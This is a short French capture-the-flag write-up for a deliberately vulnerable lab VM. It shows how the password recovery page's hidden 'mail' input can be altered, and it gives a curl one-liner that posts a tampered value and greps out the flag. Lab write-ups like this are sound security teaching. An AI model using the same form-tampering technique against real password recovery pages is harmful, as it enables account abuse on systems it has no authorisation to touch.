 # Exploit 07 - Invalide POST values for recover mail page

Sur la [page de récupération de mot de passe](http://192.168.56.101/index.php?page=recover)
il y a un `input` caché:

```html
<input
    type="hidden"
    name="mail"
    value="webmaster@borntosec.com"
    maxlength="15"
/>
```

il suffit de modifier la `value` de cet `input` et d'envoyer le formulaire pour obtenir le flag.

On peut automatiser la récupération du flag avec la commande:

```bash
curl -s 'http://192.168.56.101/?page=recover#' --data 'mail=&Submit=Submit' | grep -oP 'The flag is : \K[0-9a-f]{64}'
```
